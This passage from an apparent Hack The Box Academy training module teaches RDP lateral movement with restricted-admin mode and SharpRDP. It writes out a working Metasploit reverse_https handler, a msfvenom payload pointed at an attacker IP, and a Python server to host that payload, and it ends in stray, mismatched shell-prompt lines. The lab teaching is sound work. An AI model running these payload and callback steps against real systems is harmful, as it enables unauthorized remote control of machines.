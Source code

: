 From the window where we imported the ticket, we can use the `mstsc /restrictedAdmin` command:

```powershell
PS C:\Tools> mstsc.exe /restrictedAdmin

```

It will open a window as the currently logged-in user. It doesn't matter if the name is not the same as the account we are trying to impersonate.

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-restrictedadmin.png)

When we click login, it will allow us to connect to RDP using the hash:

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-rdp-with-ticket.png)

## SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the `mstscax.dll` library used by RDP clients. This tool can perform actions such as connecting, authenticating, executing commands, and disconnecting without needing a GUI client or SOCKS proxy.

SharpRDP relies on the terminal services library ( `mstscax.dll`) and generates the required DLLs ( `MSTSCLib.DLL` and `AxMSTSCLib.DLL`) from the `mstscax.dll`. It uses an invisible Windows form to handle the terminal services connection object instantiation and perform actions needed for lateral movement.

We will use Metasploit and PowerShell to execute commands on the target machine. In our Linux machine we will execute Metasploit to listen on port 8888:

```shell
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"

```

Then we will generate a payload with msfvenom using PowerShell Reflection:

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 774 bytes
Final size of psh-reflection file: 3543 bytes
Saved as: s

```

Next we use python http server to host our payload:

```shell
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>